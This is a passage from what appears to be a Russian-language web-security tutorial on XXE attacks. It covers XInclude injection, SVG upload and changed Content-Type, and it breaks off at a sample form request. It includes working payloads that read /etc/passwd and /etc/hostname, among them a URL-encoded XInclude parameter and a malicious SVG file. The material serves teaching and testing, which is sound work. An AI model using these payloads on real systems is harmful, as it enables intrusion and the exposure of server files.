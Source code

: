 Чтобы выполнить атаку XInclude, необходимо обратиться к пространству имен XInclude и указать путь к файлу, который вы хотите включить. Например:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

В запросе можно использовать кодирование URL:

```
productId=%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e
```

### XXE-атаки через загрузку файлов

Некоторые приложения позволяют пользователям загружать файлы, которые затем обрабатываются на стороне сервера. Некоторые распространенные форматы файлов используют XML или содержат подкомпоненты XML. Примерами форматов на основе XML являются форматы офисных документов, например DOCX, и форматы изображений, например SVG.

Например, приложение может позволять пользователям загружать изображения и обрабатывать или проверять их на сервере после загрузки. Даже если приложение ожидает получить формат PNG или JPEG, используемая библиотека обработки изображений может поддерживать изображения SVG. Поскольку формат SVG использует XML, злоумышленник может отправить вредоносное изображение SVG и таким образом достичь скрытой поверхности атаки для уязвимостей XXE.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="38" x="0" y="38">&xxe;</text>
</svg>
```

Обратите внимание, что первая строка файла чтения или результата выполнения появится внутри созданного изображения. Поэтому необходимо иметь доступ к изображению, которое создал SVG.

### XXE-атаки через измененный Content-Type

Большинство POST-запросов используют тип содержимого по умолчанию, который генерируется HTML-формами, например `application/x-www-form-urlencoded`. Некоторые веб-сайты ожидают получать запросы в этом формате, но допускают другие типы содержимого, включая XML.

Например, если обычный запрос содержит следующее:

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
